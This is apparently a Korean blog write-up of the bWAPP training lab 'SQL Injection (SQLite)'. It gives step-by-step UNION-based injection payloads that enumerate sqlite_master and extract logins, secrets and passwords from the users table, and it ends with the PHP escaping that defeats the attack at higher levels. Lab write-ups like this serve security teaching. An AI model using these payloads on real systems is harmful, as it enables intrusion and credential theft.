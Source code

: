 ```yaml
---
layout: single
title: (bWAPP)SQL Injection (SQLite)
categories: bwapp
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp//injection/sql-lite-archive/sqli-sqlite/image.png)

- '(싱글 쿼터) 입력시 Error 발생
- DBMS 의 종류가 SQLite 이다.
- union Based 로 방향을 잡았으며, 이전의 DBMS 들과의 문법이 상이하다.

> information_schema 와 같은 메타데이터 사전을 sqlite_master 라는 파일 하나로 전부 관리한다.

1. sqlite_version()	버전(@@version)
2. tbl_name		테이블 이름
3. sql 			컬럼 정보(column_name)

```sql
'order by 6--
```

- 동일하게 컬럼 개수를 파악

```sql
'and 1=2 union select 1,2,3,4,5,6--
```

- 페이지상에 출력되는 컬럼들을 파악했다.

![그림 1-2](/assets/image/bwapp//injection/sql-lite-archive/sqli-sqlite/image2.png)

- 2,3,5,4 컬럼이 노출되고 있다.

```sql
'union+select+1,2,name,4,5,6 from sqlite_master--+-
```

![그림 1-3](/assets/image/bwapp//injection/sql-lite-archive/sqli-sqlite/image3.png)
- 테이블 명들을 확인할 수 있다.

```sql
'and 1=2 union select 1,sql,3,4,5,6 from sqlite_master where tbl_name='users'--
```

![그림 1-4](/assets/image/bwapp//injection/sql-lite-archive/sqli-sqlite/image4.png)

- 컬럼명을 추출할 수 있다.

```sql
' and 1=2 union select 1,id,login,secret,password,6 from users--
```

![그림 1-5](/assets/image/bwapp//injection/sql-lite-archive/sqli-sqlite/image5.png)

- 성공적으로 데이터를 추출할 수 있다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.

